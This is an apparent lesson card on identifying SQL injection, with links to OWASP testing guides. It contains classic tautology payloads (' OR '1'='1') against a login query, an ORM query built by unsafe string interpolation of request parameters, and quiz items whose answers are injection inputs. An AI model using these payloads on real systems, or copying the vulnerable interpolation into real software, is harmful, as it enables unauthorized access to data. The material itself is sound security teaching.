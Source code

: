 ```yaml
---
author: lizTheDeveloper
type: normal
category: how to
links:
  - >-
    [Testing for SQL Injection (OTG-INPVAL-005)
    ](https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OTG-INPVAL-005)){website}
  - >-
    [Testing for ORM Injection (OTG-INPVAL-007)
    ](https://www.owasp.org/index.php/Testing_for_ORM_Injection_(OTG-INPVAL-007)){website}
  - '[link to a discussion](https://enki.com){website}'
---
```


# Identify SQL Injection


---

## Content

Use this query (you may have to modify it to suit your data model) to test for basic SQL injection problems on any input:

```sql
SELECT * FROM Users
WHERE Username='1'
OR '1' = '1'
AND Password='1'
OR '1' = '1'
```

You can also look for any string concatenation within ORM statements:

```plain-text
Orders.find_all
"customer_id = 123 AND
order_date = '#{@params['order_date']}'"
```


---

## Practice

Modify the query to pass in SQL to get all users:

```plain-text
SELECT * FROM Users WHERE Username='???'
```

- 1' OR '1' = '1
- ;SELECT * FROM Users;
- --; SELECT * FROM Users;
- OR '1' = '1'


---

## Revision

Craft input such that you are returned all of the orders

```plain-text
Orders.find_all
"customer_id = 123 AND
order_date = '#{@params['order_date']}'"
```

Input: ???

- 12/12/2012' OR '1' = '1'
- OR '1' = '1'
- SELECT * FROM Orders
- ; SELECT * FROM Orders;

